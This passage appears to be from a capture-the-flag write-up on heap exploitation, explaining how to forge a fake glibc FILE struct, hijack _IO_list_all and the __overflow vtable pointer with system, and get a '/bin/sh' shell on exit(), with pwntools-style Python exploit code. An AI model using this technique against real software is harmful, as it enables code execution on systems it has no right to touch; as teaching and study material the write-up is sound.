 This means we have to be a bit more clever to pwn this.

<img src="assets/gdb5.png" align="center" />

We are interested in the `__overflow()` function, which gets called with the `FILE`'s structure pointer as an argument. The `__overflow()` gets triggered if we `exit()`.

The plan is to create a fake `FILE` struct in our chunk using `insert()`, add it to the linked list by overwriting `_IO_list_all`, and then overwrite `__GI__IO_file_jumps`'s `__overflow` function pointer with `system`. When `__overflow()` is triggered, system will get called with our chunk address - which we have calculated - as an argument, so we can write `"/bin/sh"` to the beginning of our chunk and get a shell! Let's see it in action.

```python
# populating (_flags), _IO_write_base, _IO_write_ptr, and *vtable*
# "/bin/sh\x00" @ chunk addr
fakeFILE = {
  0x00: b'/bin/sh\x00',
  0x20: 0x01,  # _IO_write_base -> must set ptr > base
  0x28: 0x02,  # _IO_write_ptr
  0xc4+20: __GI__IO_file_jumps # FILE vtable
}
fakeFILE = list(map(val2double, genlist(fakeFILE)))

# Insert - Place fake FILE on chunk
r.sendlineafter(b'>> ', b'2')
r.sendlineafter(b': ', str(len(fakeFILE)).encode())
for val in fakeFILE: r.sendlineafter(b'): ', val)
```
